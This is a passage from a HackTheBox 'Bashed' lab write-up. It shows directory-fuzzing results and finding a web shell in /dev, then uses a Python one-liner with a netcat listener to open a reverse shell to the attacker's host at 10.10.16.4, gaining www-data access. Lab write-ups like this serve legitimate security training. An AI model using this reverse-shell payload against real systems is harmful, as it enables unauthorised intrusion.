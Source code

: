 ```
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 7743, Words: 2956, Lines: 162]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10]
:: Progress: [4713/4713] :: Job [1/1] :: 386 req/sec :: Duration: [0:00:15] :: Errors: 0 
```

While checking each path manually, we can see that the same `php` file are present in the `/dev` directory. 

![image-20220820183646437](E:\GitHub\Writeups\HackTheBox\Easy\bashed\.images\image-20220820183646437.png)



So, now we have access to a shell and all we need to do is generate a reverse connection on our local system.

We can create a reverse connection using python but we need to check if python is present on the target machine or not.

![image-20220820183753771](E:\GitHub\Writeups\HackTheBox\Easy\bashed\.images\image-20220820183753771.png)

And it looks like python is present on the target machine. So, we can start a listener using the command `nc -nlvp 1337` and then run the python command mentioned below in the shell to get a reverse connection.

```
export RHOST="10.10.16.4";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

Right after running this command we get our reverse shell as shown below

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.68] 52814
$ whoami
whoami
www-data
$ pwd
pwd
/var/www/html/dev
```
